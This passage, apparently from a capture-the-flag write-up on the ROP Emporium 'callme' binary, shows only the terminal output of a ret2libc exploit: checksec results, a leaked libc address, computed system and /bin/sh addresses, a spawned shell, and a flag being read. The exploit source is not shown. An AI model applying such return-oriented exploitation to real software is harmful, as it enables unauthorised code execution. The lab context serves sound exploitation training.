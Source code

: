 ...and run it.

```text
$ python shell.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/3-callme/callme': pid 64146
>>> sending payload 1
>>> received libc_puts address 0x7fd5662715a0
>>> libc leaked address is 0x7fd5661f6000
>>> calculated system address is 0x7fd566245230
>>> calculated /bin/sh address is 0x7fd5663b3115
>>> sending payload 2
[*] Switching to interactive mode
Thank you!
$ uname -a
Linux cartoonraccoon 5.16.9-arch1-1 #1 SMP PREEMPT Fri, 11 Feb 2022 22:42:06 +0000 x86_64 GNU/Linux
$ id
uid=1000(sammy) gid=1000(sammy) groups=1000(sammy),995(audio),998(wheel)
$ cat shell_flag.txt
flag{c0ngr4t5_y0u_got_4_sh3l1}
```
